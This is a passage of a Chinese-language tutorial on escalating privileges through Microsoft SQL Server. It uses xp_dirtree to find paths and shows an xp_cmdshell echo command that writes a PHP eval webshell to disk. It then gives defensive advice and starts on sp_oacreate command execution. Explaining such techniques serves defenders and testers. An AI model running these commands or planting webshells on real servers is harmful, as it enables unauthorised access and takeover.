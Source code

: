 
> exec sp_configure 'xp_cmdshell',0;
> 
> reconfigure;
> 
> exec sp_configure 'show advanced options',0;
> 
> reconfigure;

### 写入木马文件提权

也可以用 echo 命令写入 webshell 到 web 目录，再使用菜刀或者蚁剑等工具连接 shell 这种方式进行提权。此方法中写入 webshell 不难，但获取绝对路径需要费些事儿。

1.  其中一种办法可以使用 cmd 命令进行搜索文件、xp_dirtree、xp_subdirs 等方式获取绝对路径。
    

> execute xp_dirtree 'c:'           # 列出所有 c:\ 文件、目录、子目录
> 
> execute xp_dirtree 'c:',1         #  只列 c:\ 目录
> 
> execute xp_dirtree 'c:',1,1       # 列 c:\ 目录、文件
> 
> exec xp_cmdshell "echo'^<?php @eval($_POST[123]);?^>'>c:\2.php"     # 写木马

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWVsbUZ1duonaM1GLzaFIdfGb6o5Ug2ViaEQk13jWrkicZB4EN8IzBUaX2l31YtDnYRSS9PQYXaW3Aw/640?wx_fmt=png)

2.  或者可以直接使用 SQL TOOLS 工具执行命令、上传。
    

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWVsbUZ1duonaM1GLzaFIdfFQUz3pJRWPHZsBAdPwgpl8lIUs7vibktho0LraqoCia4laFDeE30JKxQ/640?wx_fmt=png)

三、**防御**

1.  在确定不需要的情况下，删除：xp_cmdshell、xp_dirtree、xp_regread、xp_regdeletekey、xp_regdeletevalue、xp_regwrite、sp_oacreate、sp_oadestroy、sp_oagetErrorInfo、sp_oagetProperty、sp_oamethod、sp_oasetProperty、sp_oastop 这些存储过程，移走相关的动态连接库文件，在需要的时候复制到原来的位置即可。
    
2.  应用程序和网站在与后台的 Microsoft SQLServer 数据库连接时不要用 SA 等高权限的用户连接。
    
3.  给 SA 等高权限的用户设置强密码。
    

sp_oacreate（无回显）
================

如果 xp_cmdshell 扩展存储过程被删除或者无法使用，可以使用 sp_oacreate 和 sp_oamethod 调用系统 wscript.shell 来执行系统命令。sp_oacreate 是一个非常危险的存储过程，可以删除、复制、移动文件，还能配合 sp_oamethod 来写文件执行 cmd。sp_oacreate 和 sp_oamethod 两个过程分别用来创建和执行脚本语言，换言之就是 xp_cmdshell 能执行的 sp_oacreate＋sp_oamethod 同样能胜任。

### 调用 wscript.shell 执行命令

一、**前提条件**

*   已获取到 sqlserver sysadmin 权限用户的账号与密码；
    
*   SQLserver 服务未降权：
    
*   sqlserver 可以外连；
    